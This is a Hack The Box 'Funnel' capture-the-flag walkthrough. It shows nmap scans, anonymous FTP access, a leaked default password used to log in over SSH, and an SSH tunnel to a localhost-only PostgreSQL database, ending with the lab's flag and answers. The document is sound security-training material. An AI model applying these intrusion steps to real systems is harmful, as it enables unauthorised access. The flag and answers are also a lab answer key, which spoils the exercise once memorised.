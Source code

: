 # Funnel

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 1

## Solution

#### 1. How many TCP ports are open?

```sh
$ nmap -A -T4 10.129.228.195
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-02 20:11 CET
Nmap scan report for 10.129.228.195
Host is up (0.096s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.15
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.64 seconds
```

> 2

#### 2. What is the name of the directory that is available on the FTP server?

> mail_backup

#### 3. What is the default account password that every new member on the "Funnel" team should change as soon as possible?

```sh
$ ftp 10.129.228.195
Connected to 10.129.228.195.
220 (vsFTPd 3.0.3)
Name (10.129.228.195): anonymous
331 Please specify the password.
Password: 
230 Login successful.
ftp> cd mail_backup
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp         58899 Nov 28  2022 password_policy.pdf
-rw-r--r--    1 ftp      ftp           713 Nov 28  2022 welcome_28112022
226 Directory send OK.
ftp> mget *
mget password_policy.pdf? 
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for password_policy.pdf (58899 bytes).
WARNING! 485 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
58899 bytes received in 0,128 seconds (450 kbytes/s)
mget welcome_28112022? 
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for welcome_28112022 (713 bytes).
WARNING! 11 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
713 bytes received in 0,000632 seconds (1,08 Mbytes/s)
```

![pass](./pass.jpg)

> funnel123#!#

#### 4. Which user has not changed their default password yet?

```sh
$ cat welcome_28112022 
Frome: root@funnel.htb
To: optimus@funnel.htb albert@funnel.htb andreas@funnel.htb christine@funnel.htb maria@funnel.htb
Subject:Welcome to the team!

Hello everyone,
We would like to welcome you to our team. 
We think you’ll be a great asset to the "Funnel" team and want to make sure you get settled in as smoothly as possible.
We have set up your accounts that you will need to access our internal infrastracture. Please, read through the attached password policy with extreme care.
All the steps mentioned there should be completed as soon as possible. If you have any questions or concerns feel free to reach directly to your manager. 
We hope that you will have an amazing time with us,
The funnel team.
```

```sh
$ ssh christine@10.129.228.195
The authenticity of host '10.129.228.195 (10.129.228.195)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:141: 10.129.241.178
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.228.195' (ED25519) to the list of known hosts.
christine@10.129.228.195's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
```

> christine

#### 5. Which service is running on TCP port 5432 and listens only on localhost?

```sh
$ nmap -p5432 -sV 10.129.228.195
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-02 20:17 CET
Nmap scan report for 10.129.228.195
Host is up (0.034s latency).

PORT     STATE  SERVICE    VERSION
5432/tcp closed postgresql

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.40 seconds
```

> postgresql

#### 6. Since you can't access the previously mentioned service from the local machine, you will have to create a tunnel and connect to it from your machine. What is the correct type of tunneling to use? remote port forwarding or local port forwarding?

> local port forwarding

#### 7. What is the name of the database that holds the flag?

*(Port forwarding from local port `1234` to server port `5432`)*

```sh
$ ssh -L 1234:localhost:5432 christine@10.129.228.195
christine@funnel:~$
```

*(Check our local port forwarding in other window)*

```sh
$ sudo lsof -nP -iTCP -sTCP:LISTEN
...
ssh       97861 vladimir    5u  IPv6 0xe03a0329f4a3fc11      0t0  TCP [::1]:1234 (LISTEN)
ssh       97861 vladimir    6u  IPv4 0xe03a0329e6d79f11      0t0  TCP 127.0.0.1:1234 (LISTEN)
```

*(We can now interact with the `PostgreSQL` service running locally on the target machine)*

```sh
$ psql -U christine -h localhost -p 1234
Password for user christine: 
psql (14.11 (Homebrew), server 15.1 (Debian 15.1-1.pgdg110+1))
WARNING: psql major version 14, server major version 15.
         Some psql features might not work.
Type "help" for help.

christine=$ \list
                                  List of databases
   Name    |   Owner   | Encoding |  Collate   |   Ctype    |    Access privileges    
-----------+-----------+----------+------------+------------+-------------------------
 christine | christine | UTF8     | en_US.utf8 | en_US.utf8 | 
 postgres  | christine | UTF8     | en_US.utf8 | en_US.utf8 | 
 secrets   | christine | UTF8     | en_US.utf8 | en_US.utf8 | 
 template0 | christine | UTF8     | en_US.utf8 | en_US.utf8 | =c/christine           +
           |           |          |            |            | christine=CTc/christine
 template1 | christine | UTF8     | en_US.utf8 | en_US.utf8 | =c/christine           +
           |           |          |            |            | christine=CTc/christine
(5 rows)
christine=$ \connect secrets
You are now connected to database "secrets" as user "christine".
secrets=$ \dt
         List of relations
 Schema | Name | Type  |   Owner   
--------+------+-------+-----------
 public | flag | table | christine
(1 row)
secrets=$ select * from flag;
              value               
----------------------------------
 cf277664b1771217d7006acdea006db1
(1 row)
```

> secrets

#### 8. Could you use a dynamic tunnel instead of local port forwarding? Yes or No.

> yes


## Final Flag

> cf277664b1771217d7006acdea006db1

*Created by [bu19akov](https://github.com/bu19akov)*